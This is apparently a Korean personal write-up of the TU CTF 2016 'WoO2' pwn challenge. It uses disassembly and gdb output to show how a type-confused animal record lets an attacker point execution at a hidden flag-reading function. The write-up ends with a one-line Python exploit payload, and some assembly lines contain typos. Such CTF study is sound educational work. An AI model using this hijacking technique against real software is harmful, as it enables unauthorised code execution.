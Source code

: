 ```yaml
---
title: TU CTF 2016 - WoO2
slug: tu-ctf-2016-woo2
date: 2016-05-17 21:16:00 +0900 KST
categories: [write-up]
markup: mmark
---
```


TU CTF 2016에서 못푼 문제

```sh
$ ./WoO2
Welcome! I don't think we're in Kansas anymore.
We're about to head off on an adventure!
Select some animals you want to bring along.

Menu Options:
1: Bring a lion
2: Bring a tiger
3: Bring a bear
4: Delete Animal
5: Exit

Enter your choice:
5
$
```

실행하면 이렇게 뜬다.

```text
Enter your choice:
1
Choose the type of lion you want:
1: Congo Lion
2: Barbary Lion
1
Enter name of lion:
AAA
```

동물을 고르면 종류를 고를 수 있고 이름도 지어줄 수 있다.

```x86asm
$ readelf -s WoO2 | grep 'GLOBAL DEFAULT   13'
    45: 0000000000400fb0     2 FUNC    GLOBAL DEFAULT   13 __libc_csu_fini
    48: 0000000000400a11   131 FUNC    GLOBAL DEFAULT   13 makeLion
    59: 0000000000400a94   155 FUNC    GLOBAL DEFAULT   13 pickTigerType
    65: 0000000000400989   136 FUNC    GLOBAL DEFAULT   13 pickLionType
    67: 0000000000400eaf    51 FUNC    GLOBAL DEFAULT   13 printWelcome
    69: 0000000000400c39   168 FUNC    GLOBAL DEFAULT   13 makeBear
    72: 0000000000400b2f   131 FUNC    GLOBAL DEFAULT   13 makeTiger
    73: 0000000000400f40   101 FUNC    GLOBAL DEFAULT   13 __libc_csu_init
    76: 0000000000400bb2   135 FUNC    GLOBAL DEFAULT   13 pickBearType
    78: 0000000000400820     0 FUNC    GLOBAL DEFAULT   13 _start
    79: 0000000000400e5e    81 FUNC    GLOBAL DEFAULT   13 printMenu
    81: 0000000000400ee2    93 FUNC    GLOBAL DEFAULT   13 main
    82: 0000000000400ce1    67 FUNC    GLOBAL DEFAULT   13 pwnMe
    85: 0000000000400d90   206 FUNC    GLOBAL DEFAULT   13 makeStuff
    86: 000000000040090d   124 FUNC    GLOBAL DEFAULT   13 l33tH4x0r
    92: 0000000000400d24   108 FUNC    GLOBAL DEFAULT   13 deleteAnimal
```

`l33tH4x0r` 함수를 보면

```x86asm
Dump of assembler code for function l33tH4x0r:
   0x000000000040090d <+0>:     push   rbp
   0x000000000040090e <+1>:     mov    rbp,rsp
   0x0000000000400911 <+4>:     sub    rsp,0x50
   0x0000000000400915 <+8>:     mov    rax,QWOR PTR fs:0x28
   0x000000000040091e <+17>:    mov    QWORD PRT [rbp-0x8],rax
   0x0000000000400922 <+21>:    xor    eax,eax
   0x0000000000400924 <+23>:    mov    esi,0x400fc8
   0x0000000000400929 <+28>:    mov    edi,0x400fca
   0x000000000040092e <+33>:    call   cx4007f0 <fopen&plt>
```

`flag.txt`(0x400fca)를 여는 함수다.
그런데 이 함수를 호출하는 함수가 없다.

Enter your choice:에서 4919를 입력하면 pwnMe 함수가 실행되는데,
pwnMe 함수를 보면

```x86asm
Dump of assembler code for function pwnMe:
   0x0000000000400ce1 <+0>:     push   rbp
   0x0000000000400ce2 <+1>:     mov    rbp,rsp
   0x0000000000400ce5 <+4>:     sub    rsp,0x10
   0x0000000000400ce9 <+8>:     mov    eax,DWORD PTR [rip+0x2013d1]     # 0x6020c0 <bearOffset>
   0x0000000000400cef <+14>:    cdqe
   0x0000000000400cf1 <+16>:    mov    rax,QWORD PTR [rax*8+0x6020e0]
   0x0000000000400cf9 <+24>:    mov    QWORD PTR [rbp-0x10],rax
   0x0000000000400cfd <+28>:    mov    rax,QWORD PTR [rbp-0x10]
   0x0000000000400d01 <+32>:    mov    eax,DWORD PTR [rax+0x14]
   0x0000000000400d04 <+35>:    cmp    eax,0x3
   0x0000000000400d07 <+38>:    jne    0x400d1a <pwnMe+57>
   0x0000000000400d09 <+40>:    mov    rax,QWORD PTR [rbp-0x10]
   0x0000000000400d0d <+44>:    mov    rax,QWORD PTR [rax]
   0x0000000000400d10 <+47>:    mov    QWORD PTR [rbp-0x8],rax
   0x0000000000400d14 <+51>:    mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000400d18 <+55>:    call   rax
   0x0000000000400d1a <+57>:    mov    edi,0x0
   0x0000000000400d1f <+62>:    call   0x400810 <exit@plt>
```

pwnMe+35에서 eax는 동물의 종류를 고를 때의 숫자,
pwnMe+55에서 rax는 동물의 이름의 헥사값을 가리킨다.

예를 들어 lion, tiger, bear순으로 각각 타입은 1, 2, 3,
이름은 AAA, BBB, CCC라고 이름을 지으면 메모리는 상황은 다음 스크린샷과 같다.

```x86asm
(gdb) x/24x 0x603010
0x603010:       0x0a414141      0x00000000      0x00000000      0x00000000
0x603020:       0x00000000      0x00000001      0x00000021      0x00000000
0x603030:       0x0a424242      0x00000000      0x00000000      0x00000000
0x603040:       0x00000000      0x00000002      0x00000021      0x00000000
0x603050:       0xdeadbeef      0x00000000      0x0a434343      0x00000000
0x603060:       0x00000000      0x00000003      0x00020fa1      0x00000000
```

bear를 만드는 함수는 다른 동물을 만드는 함수와 달라서
이름이 들어갈 자리에 0xdeadbeef가 들어가니까 bear는 만들지 말고,
다른 동물을 만들어서 l33tH4x0r 함수 주소를 입력하면 실행시킬 수 있다.

그런데 난 주소가 64비트인 걸 생각 안하고
\x0d\x09\x40\x00만 죽어라 입력하다가 못풀었다.
컴퓨터는 개행문자까지 포함해서 0x0a0040090d를 호출하려고 시도했던 것ㅠㅠ

풀이

```sh
python -c "print '2\n3\n' + '\x0d\x09\x40\x00\x00\x00\x00\x00' + '\n4919\n'" | ./WoO2
```
